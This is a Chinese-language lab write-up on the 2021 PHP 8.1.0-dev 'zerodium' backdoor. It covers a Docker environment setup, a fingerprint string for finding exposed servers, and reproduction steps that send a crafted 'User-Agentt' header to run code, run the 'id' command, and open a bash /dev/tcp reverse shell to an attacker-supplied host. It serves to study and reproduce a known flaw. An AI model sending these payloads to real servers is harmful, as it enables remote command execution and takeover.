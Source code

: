 # PHP 8.1.0-dev 开发版本 zerodium 后门漏洞

## 漏洞描述

PHP 8.1.0-dev 版本在 2021 年 3 月 28 日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送 User-Agentt 头来执行任意代码。

参考链接：

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## 漏洞影响

```
PHP 8.1.0-dev
```

## 网络测绘

```
"PHP/8.1.0-dev"
```

## 环境搭建

Vulhub 执行如下命令启动一个存在后门的 PHP 8.1 服务器：

```
docker compose up -d
```

环境启动后，服务运行在 `http://your-ip:8080`。

## 漏洞复现

添加请求头，注意是 **User-Agentt** 不是 User-Agent。

执行代码：

```
User-Agentt: zerodiumvar_dump(233*233);
```

![](images/PHP%208.1.0-dev%20开发版本%20zerodium%20后门漏洞/image-20240529084958596.png)

执行命令：

```plain
User-Agentt: zerodiumsystem("id");
```

![](images/PHP%208.1.0-dev%20开发版本%20zerodium%20后门漏洞/image-20240529085013250.png)

反弹 shell：

```
User-Agentt: zerodiumsystem("bash -c 'exec bash -i &> /dev/tcp/<your-ip>/<port> <& 1'");
```

![](images/PHP%208.1.0-dev%20开发版本%20zerodium%20后门漏洞/image-20240529085117047.png)
